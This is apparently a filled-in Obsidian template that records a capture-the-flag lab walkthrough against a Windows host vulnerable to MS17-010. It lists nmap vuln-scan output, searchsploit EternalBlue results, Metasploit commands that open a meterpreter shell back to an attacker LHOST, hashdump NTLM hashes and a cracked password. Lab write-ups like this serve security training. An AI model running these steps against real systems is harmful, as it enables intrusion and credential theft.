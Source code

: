 Use this template in Obsidian to register your findings per target.

---
## 🖥️ Target System: `IP/Hostname`


<summary>1. 🧭 Initial Reconnaissance</summary>

- **Tools Used**: nmap
- **Host Discovery**:
  - Was the host alive? - Yes
  - Ping Response:

![[Pasted image 20250628121808.png]]

- **Port Scan Results**:
  - Open Ports:
  - Service Versions:
  - OS Detection:

![[initial_recon.txt]]
---

<summary>2. 📂 Enumeration</summary>

- **Ports/Services Analyzed**: 
- **Tools Used**:
- **Findings**:
  - Directories found:
  - Enumerated users/accounts:
  - Software versions:
- **Screenshots/Proof**:

![[Pasted image 20250628130257.png]]

---

<summary>3. 🚨 Vulnerability Analysis</summary>

- **Identified Vulnerabilities**:
  - Description: Used --script vuln to find common vulnerabilities on open ports and then use searchsploit to explore vulnerabilities found
  - CVE/Exploit DB Ref:
- **Tool(s) Used**: nmap, searchsploit
- **Proof/Output**:
  - Command results, error messages, etc.

```
sudo nmap -Pn -sV -T5 -v3 --script vuln 10.10.131.86 -o vulnerabilities.txt
```

![[vulnerabilities.txt]]

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

$searchsploit ms17-010
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execut | windows/remote/43970.rb
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                  | windows/dos/41891.rb
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)               | windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS1 | windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)     | windows_x86-64/remote/42030.py
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)  | windows_x86-64/remote/41987.py

---

<summary>4. 💣 Exploitation</summary>

- **Tool(s) Used**: Metasploit
- **Exploit/Payload**:
	- SMB Remote Code Execution Scanner (MS17-010) (Metasploit) - windows/dos/41891.rb
  - Command:
	- search ms17-010
	- use 0
	- ![[Pasted image 20250628123547.png]]
	- options
	- set rhosts 10.10.131.86
	- set LHOST 10.14.102.108
	- run

- **Result**:
  - Got Shell? User Access? 
	  - yes a meterpreter session
	  - NT AUTHORITY\SYSTEMNT AUTHORITY\SYSTEM using getuid
- **Post-Exploitation Notes**:
  - E.g., accessed user.txt
- **Proof**:

![[Pasted image 20250628123950.png]]

![[Pasted image 20250628124117.png]]

---

<summary>5. 🪜 Privilege Escalation</summary>

- **Initial Access Level**: NT AUTHORITY\SYSTEM
- **Techniques Tried**:
  - NA - already have full access to machine
- **Success Path**:
  - Commands used:
- **Root Access?** (Yes)

---

<summary>6. 🗃️ Post-Exploitation</summary>

- **Files/Flags Accessed**:
- **Sensitive Data Found**:
  - **Passwords, config files:
	  - using hashdump:
	  
		- Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
		- Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
		- Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

- **Users Compromised (User:pass)**:
	- used CrackStation
		- Jon: alqfna22

---

<summary>7. 📓 Lessons Learned</summary>

- **What Worked**: meterpreter exploitaion, nmap, searchsploit

---

